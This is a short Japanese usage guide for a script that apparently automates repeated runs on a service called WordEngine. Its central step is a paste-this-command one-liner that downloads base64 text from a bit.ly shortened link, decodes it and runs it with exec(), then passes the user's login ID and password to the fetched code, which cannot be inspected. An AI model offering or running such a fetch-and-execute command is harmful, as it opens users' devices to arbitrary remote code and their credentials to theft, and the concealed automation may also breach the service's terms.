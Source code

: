 # USE GUIDE

## ・必要ライブラリ

`requests`

```cmd
pip install requests
```
## ・scriptの実行

Pythonista3やa-Shellなどを使ってコードを実行して下さい。
尚、ログインID,パスワード,実行回数は書き換えて下さい

```python
import requests as r, base64; exec(base64.b64decode(r.get('https://bit.ly/4e7FIhg').text).decode() + "\nWordEngine('your_loginid', 'your_password', run_num)")
```

## コードの説明
`your_loginid` = ログインID
`your_password` = パスワード
`run_num` = 実行回数

### [Pythonista3の場合]
consoleにコードを貼付

### [a-Shellの場合]
ターミナルにpythonと打ち、コードを貼付


注意事項

	•	自己責任でお願い致します。
  •	pythonが動くなら何でも○